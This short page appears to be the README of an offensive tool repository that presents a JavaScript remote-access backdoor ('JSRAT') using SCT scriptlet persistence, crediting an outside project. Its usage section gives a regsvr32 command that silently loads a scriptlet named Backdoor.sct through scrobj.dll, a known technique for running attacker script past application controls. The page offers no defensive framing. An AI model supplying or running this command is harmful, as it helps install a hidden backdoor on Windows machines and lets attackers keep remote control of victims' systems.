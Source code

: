 Another way of JSRAT on SCTPersistence.
---

Thanks to Casey Smith@subTee

https://github.com/subTee/SCTPersistence


---
###Usage:

regsvr32.exe /s /i:Backdoor.sct scrobj.dll


 













